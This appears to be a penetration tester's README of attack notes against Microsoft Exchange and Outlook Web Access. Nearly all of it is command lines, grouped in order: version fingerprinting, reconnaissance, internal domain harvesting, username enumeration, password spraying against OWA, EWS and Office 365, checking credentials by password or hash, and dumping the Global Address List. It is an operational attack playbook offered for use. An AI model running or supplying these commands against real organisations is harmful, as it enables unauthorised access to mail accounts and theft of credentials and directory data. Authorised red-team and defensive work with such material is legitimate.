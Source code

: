 **This repo is not near complete, and the info herein are only some of the notes i usually take during engagements, so feel free to contribute.**



## Check version 
- naviagte to the target's exchange site 
- open source code viewer 
- check the  following line  ( <link rel="shortcut icon" href="/owa/auth/15.1.1913/themes/resources/favicon.ico" type="image/x-icon"> )
- grep the version after /owa/auth 
- compare between verisons by using https://docs.microsoft.com/en-us/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019


# Reconnaissance ( OWA Discovery ) 
- _check_autodiscover <domain>
- nuclei -l alive.txt -t  ~/tools/templates/nuclei-templates/technologies/microsoft-echange-server-detect.yaml -c 200 -silent
- python3 ~/tools/fierce/fierce/fierce.py  --domain <domain> --subdomains mail email webmail zmail autodiscover --connect
- - ./ruler-linux64 -k  --domain mail.domain.com u  // check autodiscover as well as check office365
- recon-ng ( recon/domains-hosts/mx_spf_ip ) 



# Internal Domain Discovery
- check ssl for potenail valid name 
- use auxiliary/scanner/msmail/host_id
- python3 atomizer.py owa 'https://autodiscover.domain.com/autodiscover/autodiscover.xml' --recon
- Invoke-DomainHarvestOWA -ExchHostname mail.domain.com
- Invoke-DomainHarvestOWA -ExchHostname mail.domain.com  -OutFile potential-domains.txtt -CompanyName "company name"
- Invoke-DomainHarvestOWA -ExchHostname mail.domain.com -DomainList .\domainlist.txt -OutFile potentially-valid-domains.txt -Brute -domain <domain>


# Naming Schema Fuzzing 
- Invoke-EmailAddressMangler -FirstNamesList C:\Users\admin\Desktop\first-name.txt -LastNamesList C:\Users\admin\Desktop\last-name.txt -AddressConvention fn.ln | Out-File -Encoding ascii namelist.txt



# Endpoints 
- https://mail.domain.com/EWS/Exchange.asmx  ( EWS )


# Username Enuumeration 
- Invoke-UsernameHarvestOWA -UserList .\namelist.txt -ExchHostname mail.domain.com  -Domain  domain.com -OutFile valid-username.txt
- use auxiliary/scanner/msmail/onprem_enum
- use auxiliary/scanner/http/owa_login
- python3 o365spray.py --enum -d domain.com -U users    # O365 [[ supply users not emails ]] 


# password Discovery 
- Invoke-PasswordSprayOWA -ExchHostname mail.domain.com  -UserList .\valid-username.txt  -OutFile owa-sprayed-creds.txt -Threads 15 -Password password123
- Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\valid-username.txt -Password <pass> -Threads 15 -OutFile wes.creds 
- ./ruler-linux64 -k --domain domain.com brute --users /tmp/i --passwords /tmp/ii  --verbose   ( most reliable ) 
- python3 atomizer.py owa domain.com 'pass' <emails>
- use auxiliary/scanner/http/owa_login
- ~/tools/ruler-linux64 --o365 brute --users emails --passwords pp --verbose   # O365 
- python3 ~/tools/cloud-pentest/azure/o365spray/o365spray.py  --spray -U uu -P pp -d domain.com -l 5  # O365 [[ supply users not emails ]] 


# Credentials verification 
- ~/tools/ruler-linux64 --url 'https://autodiscover.mail.domain/autodiscover/autodiscover.xml'  --username <username> --password <password> --email <email> --insecure check
- ~/tools/ruler-linux64 --url 'https://autodiscover.mail.domain/autodiscover/autodiscover.xml'  --username <username> --hash <hash> --email <email> --insecure check


# GAL  
- Get-GlobalAddressList -ExchHostname mail.domain.com  -UserName  domain\user -Password asdqwe123  -OutFile GBL.txt




